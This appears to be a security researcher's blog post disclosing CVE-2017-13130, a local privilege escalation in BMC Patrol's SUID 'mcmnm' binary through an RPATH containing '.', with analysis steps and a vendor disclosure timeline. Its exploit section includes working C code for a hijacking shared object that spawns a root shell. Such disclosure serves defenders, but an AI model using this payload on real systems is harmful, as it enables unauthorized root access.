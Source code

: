 ```yaml
---
title: "CVE-2017-13130 - BMC Patrol 'mcmnm' - Privilege Escalation via a Vulnerable SUID Binary"
layout: "post"
categories: "Linux"
tags: ["Research", "Vulnerability", "Privilege Escalation", "Exploit"]
---
```


A vulnerability was discovered in the `mcmnm` binary. It is compiled with a `RPATH` starting with `.:`. Therefore, any user can craft a malicious library (e.g.: `libmcmclnx.so`) and then run `mcmnm` from the same directory to execute code as _root_.


![](/assets/posts/2018-06-06-bmc-patrol-mcmnm-privesc/00_exploit-demo.gif)

## Vulnerability analysis 

### File permissions

The `mcmnm` file is a `SUID` binary owned by _root_ and executable by everyone.

![](/assets/posts/2018-06-06-bmc-patrol-mcmnm-privesc/01_file-permissions_obf.png)

### Vulnerable RPATH

The binary's `RPATH` contains the unsecure path `.`. As a reminder, `RPATH` is the _run-time search path_. It can be used to specify the location of Shared Objects that will be loaded before any other library because the linker gives them a higher priority. Therefore, if a local user can create a custom Shared Object in one of these folders, then he/she will be able to hijack the execution flow of the program. In the present case, `.` can be regarded as a sort of wildcard, hence the obvious vulnerability.

![](/assets/posts/2018-06-06-bmc-patrol-mcmnm-privesc/02_readelf-rpath_obf.png)

### A quick dynamic analysis using `strace`

Thanks to `strace` we can see which SO files the binary tries to load and from where. For example, it tries to load `libmcmclnx.so'` from the current folder (because of the `.` in the `RPATH`). 

![](/assets/posts/2018-06-06-bmc-patrol-mcmnm-privesc/03_strace_obf.png)

## Exploit development 

### Shared Object hijacking
The exploit is quite simple as a local attacker only has to craft a malicious Shared Object file and execute the vulnerable binary from the same folder. The following code will spawn a _root_ shell as soon as the Object is loaded (similar to `DllMain` with Windows DLL).

```c
#include <stdio.h>
#include <stdlib.h>

static void so_hijacking() __attribute__((constructor));

void so_hijacking() {
    setreuid(0, 0);
    system("/bin/sh");
    exit(0);
}

void GetSysInfo() {}
```


### The exploit code 

The exploit was wrapped in a single script file. The first line (`BIN=/path/to/mcmnm`) must be modified to match the current installation of the Patrol package. If all goes well, you should get a _root_ shell. ;)

![](/assets/posts/2018-06-06-bmc-patrol-mcmnm-privesc/05_exploit_obf.png)

## Disclosure timeline

2017-04-21 - Vulnerability discovered  
2017-05-09 - Vendor contacted  
2017-06-05 - Still no response, reminder sent to vendor  
2017-08-22 - Still no response, vulnerability disclosed  

